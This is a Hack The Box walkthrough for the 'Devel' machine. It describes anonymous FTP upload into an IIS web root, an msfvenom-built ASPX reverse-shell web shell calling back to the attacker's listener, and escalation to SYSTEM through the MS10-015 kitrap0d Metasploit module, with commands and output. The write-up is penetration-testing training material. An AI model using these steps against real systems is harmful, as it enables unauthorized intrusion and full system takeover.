

|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.5 |  | [Devel](https://app.hackthebox.com/machines/devel) |  |

---

## Enumeration
---
### Nmap
---
We began with a full port scan and service enumeration using Nmap:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Nmap reveals FTP allowing anonymous login and HTTP server is `Microsoft IIS 7.5` running on the target server.

### FTP
---
We logged into the FTP server via anonymous credential and discover nothing notable at this time.

```
ftp 10.10.10.5

Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49173|)
150 Opening ASCII mode data connection.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
```

We move onto other services for potential exploitations.

### HTTP
---
We check the website hosted on the server and are greeted by a default IIS page. Viewing the page source, we see the image source for the page is from `welcome.png`. We confirm the address `http://10.10.10.5/welcome.png` is an accessible webpage which indicates to us that we may upload a file to initiate a revershell script via FTP server.

We test this thoery by first uploading a file to the FTP server and navigate to http://10.10.10.5/test.txt to confirm the file is accessible. This confirms that the FTP service directly maps to the IIS web server.

```
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||49174|)
125 Data connection already open; Transfer starting.
100% |********************************|     7      184.75 KiB/s    --:-- ETA
226 Transfer complete.
7 bytes sent in 00:00 (0.09 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||49175|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
01-06-25  05:05AM                    7 test.txt
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
```



## Foothold
---
To gain a foothold, we uploaded a malicious **ASPX web shell** using msfvenom to craft the payload:

```
msfvenom -p windows/meterpreter/shell_reverse_tcp LHOST=<Your_IP> LPORT=4444 -f aspx > shell.aspx
```

Upload the file via FTP:

```
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
229 Entering Extended Passive Mode (|||49183|)
125 Data connection already open; Transfer starting.
100% |*********************************************************************|  2916       47.94 MiB/s    --:-- ETA
226 Transfer complete.
```

We trigger the shell via the browser `http://10.10.10.5/shell.aspx` and set up a listener via `Metasploit` to catch the reverse shell.

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST tun0
[default LPORT was set to 4444]
run
```

We were able to gain access as `iis apppool\web`.

## Privilege Escalation
---
We use Metasploit's `post/multi/recon/local_exploit_suggester` module to identify potential privilege escalation vulnerabilities:

```
use post/multi/recon/local_exploit_suggester
set SESSION <session_number>
run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 198 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_comhijack: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
...
```

We failed to obtain a session using the first few exploits due to IIS user not being in the `admin group`.

### MS10-015 Exploitation
---
According to NIST, [MS10-015](https://nvd.nist.gov/vuln/detail/CVE-2010-0232) is a Windows kernel privilege escalation vulnerability affecting Windows NT through Windows 7 on 32-bit systems with 16-bit application support enabled. It arises from improper validation of certain BIOS calls. Attackers can craft a malicious VDM_TIB structure in the Thread Environment Block (TEB) and invoke the NtVdmControl function to exploit the #GP trap handler (nt!KiTrap0D), enabling arbitrary code execution with system privileges.

```
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on <Your_IP>:4444 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 3988 launched.
[*] Reflectively injecting the DLL into 3988...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 10.10.10.5
[*] Meterpreter session 3 opened (<Your_IP>:4444 -> 10.10.10.5:49188) at 2025-01-05 23:21:01 -0500

meterpreter > shell
Process 3416 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system
```

The user flag is in `C:\Users\babis\Desktop\user.txt` and the root flag is in `C:\Users\Administrator\Desktop\root.txt`.